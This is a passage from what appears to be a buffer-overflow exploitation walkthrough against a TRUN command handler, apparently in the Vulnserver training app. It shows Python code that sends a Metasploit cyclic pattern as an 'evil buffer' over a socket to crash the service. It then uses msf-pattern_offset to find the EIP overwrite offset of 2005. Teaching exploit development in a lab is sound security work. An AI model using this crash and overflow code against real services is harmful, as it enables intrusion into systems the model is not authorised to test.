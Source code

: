 ```python
pattern += b"Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2E"
pattern += b"j3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em"
pattern += b"6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9"
pattern += b"Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2E"
pattern += b"t3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew"
pattern += b"6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9"
pattern += b"Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2F"
pattern += b"d3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4F"


buf = b""
buf += b"TRUN /."
#buf += b"A" * size
buf += pattern
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

After running this program we can once again check the value of the EIP on crash:

**EIP value on crash:** 6F43386F

Now we can determine the exact offset using another metasploit tool:

```bash
$ msf-pattern_offset -l 4096 -q 6F43386F

[*] Exact match at offset 2005
```
